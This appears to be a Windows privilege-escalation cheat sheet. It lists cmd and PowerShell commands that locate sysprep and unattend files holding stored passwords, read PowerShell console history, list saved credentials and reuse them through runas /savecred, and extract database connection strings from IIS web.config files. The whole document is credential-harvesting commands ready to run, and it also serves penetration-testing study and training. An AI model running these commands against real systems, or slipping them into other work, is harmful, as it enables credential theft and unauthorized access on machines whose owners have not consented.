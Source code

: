 # File-Unattended ✅
## cmd ✡️
```cmd
dir C:\sysprep.inf /s /p
dir C:\sysprep.xml /s /p
dir C:\unattend.xml /s /p
```
## powershell ✡️
```powershell
Get-ChildItem -Path C:\ -Filter "sysprep.inf" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Filter "Unattend.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\Panther\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\system32\sysprep\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
```
# Powershell History ✅
## cmd ✡️
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in cmd
```
## powershell ✡️
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in powershell
```
# Saved Windows Credentials ✅
```powershell
cmdkey /list # show save user credentials
runas /savecred /user:<username> cmd.exe # run cmd with another user 
runas /savecred /user:<username> powershell.exe # run powershell with another user
```
# IIS Configuration ✅
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
forfiles /p C:\ /s /m web.config /c "cmd /c findstr /i connectionString @file" 2>$null
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
